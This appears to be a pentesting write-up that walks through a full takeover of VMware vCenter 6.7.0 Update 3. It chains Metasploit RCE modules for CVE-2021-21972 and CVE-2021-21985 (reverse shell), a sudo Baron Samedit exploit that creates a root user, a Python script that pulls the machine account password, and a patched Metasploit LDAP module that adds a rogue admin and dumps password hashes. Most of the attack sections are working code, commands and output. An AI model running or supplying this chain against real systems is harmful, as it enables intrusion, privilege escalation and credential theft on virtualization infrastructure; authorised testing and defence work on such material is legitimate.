

## Taking over VMware Vcenter 6.7.0

Chain of actions tested on `vCenter Appliance 6.7 Update 3 (6.7.0.40000). Intended for research or pentersters only.

### Geting low priviledge access to vsphere-ui

Since this version is vulnerble to CVE 2021-21972 and CVE-2021-21985 you may use Metasploit's vcenter modules
```
   3  exploit/multi/http/vmware_vcenter_uploadova_rce           2021-02-23       manual     Yes    VMware vCenter Server Unauthenticated OVA File Upload RCE
   4  exploit/linux/http/vmware_vcenter_vsan_health_rce         2021-05-25       excellent  Yes    VMware vCenter Server Virtual SAN Health Check Plugin RCE
```
to get low priviledge access (reverse shell) to the vsphere-ui user. For this version of vcenter the `vmware_vcenter_vsan_health_rce` seems to be more reliable, 
alhough be patient, it usually succeeds in about 70% of attemtps only. If you don't get the reverse shell on the first attempt, just repeat the exploit:



### Escalating priviledges via CVE-2021-3156 (Sudo Baron Samedit)

Vcenter 6.7.0 vsphere appliance runs on Photon OS Linux 1.0 with a sudo 1.8.20p2 vulnerable to CVE-2021-3156

```bash
# cat /etc/photon-release
VMware Photon Linux 1.0
PHOTON_BUILD_NUMBER=62c543d

# sudo --version
Sudo version 1.8.20p2
Configure options: --prefix=/usr --bindir=/usr/bin --libexecdir=/usr/lib --docdir=/usr/share/doc/sudo-1.8.20p2 --with-all-insults --with-env-editor --with-pam --with-pam-login  --with-passprompt=[sudo] password for %p
```
Exploit https://github.com/worawit/CVE-2021-3156/blob/main/exploit_userspec.py works out of the box. At the end of the exploit you get a `gg` user created with password `gg` and UID=0:

```
# python ./exploit_userspec.py
... snip ....
to skip finding offsets next time no this machine, run:
exploit_userspec.py 0xd90 -1 0x1f0 0x0
gg:$5$a$gemgwVPxLx/tdtByhncd4joKlMRYQ3IVwdoBXPACCL2:0:0:gg:/root:/bin/bash
success at 8303
```

At this point you may use `ssh gg@your-vcenter` to logon to vsphere appliance as a root.

### Escalation priviledges via CVE-2021-xxxxx (not yet published)

To be updated once disclosed by VMWare ...

### Geting credentials to vcenter

Logged as root use the below script to get the password for machine account from vmdir's LDAP directory for `vsphere.local` domain:
```python
#!/usr/bin/env python

import sys

sys.path.append('/usr/lib/vmware-vmafd/lib64')

import vmafd

def getMachineAccountCredentials():
    client = vmafd.client('localhost')
    username = client.GetMachineName()
    password = client.GetMachinePassword()
    return (username, password)

if __name__ == "__main__":
    print(getMachineAccountCredentials())
```
Note: it does not work if run by `vsphere-ui` user, it requires root priviledges.

You obtain the user name and password:
```bash
root@10.0.0.1 [ /tmp ]# ./get_creds.py
('10.0.0.1', 'Password123')
```
The full username of the machine account is `cn=10.0.0.1,ou=Domain Controllers,dc=vsphere,dc=local`.

### Creating own admin user on the vcenter

The machine account cannot be used yet to logon to the vcenter, but we can use it for authentication to vsphere.local LDAP server and create our own admin 
account with Metasploit's `auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass` module. Leveraging some aspects of [CVE-2020-3952](https://www.vmware.com/security/advisories/VMSA-2020-0006.html), despite the fact the Vcenter is not vulnerable to the CVE-2020-3952 itself. 

At the time of writing this article the Metasploit module needs to be adjusted with a pull request https://github.com/rapid7/metasploit-framework/pull/15656
In the mean time you may adjust the below function in `vmware_vcenter_vmdir_auth_bypass` yourself:

```ruby
  def auth_bypass(ldap)
    unless datastore['BIND_DN']
      ldap.bind(
        method: :simple,
        username: Rex::Text.rand_text_alphanumeric(8..42),
        password: Rex::Text.rand_text_alphanumeric(8..42)
      )
    end
  end
```
After that modification an authenticated `vmware_vcenter_vmdir_auth_bypass` will work.


Fill in your options and execute:
```
msf6 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > options

Module options (auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass):

   Name      Current Setting                                        Required  Description
   ----      ---------------                                        --------  -----------
   BASE_DN   dc=vsphere,dc=local                                    no        LDAP base DN if you already have it
   BIND_DN   cn=10.0.0.1,ou=Domain Controllers,dc=vsphere,dc=local  no        The username to authenticate to LDAP server
   BIND_PW   Password123                                            no        Password for the BIND_DN
   PASSWORD  NewPassword123#                                        no        Password of admin user to add
   RHOSTS    10.0.0.1                                               yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     636                                                    yes       The target port
   SSL       true                                                   no        Enable SSL on the LDAP connection
   USERNAME  Myadmin                                                no        Username of admin user to add
```

You should get your new admin user `Myadmin@vsphere.local` created with password `NewPassword123#`. As a bonus you get password hashes of all the other vcenter users from vsphere.local domain.

Now go to the https://10.0.0.1/ui and logon to the vcenter.
